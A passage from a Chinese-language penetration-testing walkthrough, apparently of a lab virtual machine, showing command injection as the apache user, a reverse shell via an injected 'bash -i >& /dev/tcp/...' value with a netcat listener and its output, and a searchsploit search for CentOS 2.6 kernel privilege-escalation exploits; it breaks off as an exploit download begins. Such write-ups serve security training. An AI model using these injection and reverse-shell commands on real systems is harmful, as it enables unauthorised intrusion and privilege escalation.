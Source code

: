 成功执行了我们的whoami，显示为apache用户

这里就可以试下反弹shell了

- 直接执行反弹shell命令
    - kali监听一下，命令`nc -lvvp 9988`
    - 命令`192.168.85.157&bash -i >& /dev/tcp/192.168.85.157/9988 0>&1`
    
    ```bash
    ┌──(root㉿kali)-[/home/kali]
    └─# nc -lvvp 9988
    listening on [any] 9988 ...
    192.168.85.158: inverse host lookup failed: Unknown host
    connect to [192.168.85.157] from (UNKNOWN) [192.168.85.158] 32769
    bash: no job control in this shell
    bash-3.00$ whoami
    apache
    bash-3.00$ 
    ```
    
    成功shell，但是权限有点低了，得提权
    
    个人习惯，发现一个点就得打到位不然先不去看其他的
    
    - 提权
        
        记得前面有一个内核版本低得问题，看一下能不能利用提权
        
        ```bash
        ┌──(root㉿kali)-[/home/kali]
        └─# searchsploit linux kernel centos 2.6 
        -------------------------------------------------------------------------------------------------------------------- ---------------------------------
         Exploit Title                                                                                                      |  Path
        -------------------------------------------------------------------------------------------------------------------- ---------------------------------
        Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - 'sock_sendpage()' L | linux/local/9545.c
        Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whitebox 4 / CentOS 4) - 'sock_sendpage()' Ring0 Privil | linux/local/9479.c
        Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privile | linux_x86/local/9542.c
        Linux Kernel 2.6.32 < 3.x (CentOS 5/6) - 'PERF_EVENTS' Local Privilege Escalation (1)                               | linux/local/25444.c
        Linux Kernel 2.6.x / 3.10.x / 4.14.x (RedHat / Debian / CentOS) (x64) - 'Mutagen Astronomy' Local Privilege Escalat | linux_x86-64/local/45516.c
        -------------------------------------------------------------------------------------------------------------------- ---------------------------------
        Shellcodes: No Results
        ```
        
        只有3，4符合，我们先试一下3，应为靶机是2.6.9-2.6.30 ，3得概率大点
        
        1. 下载exp
            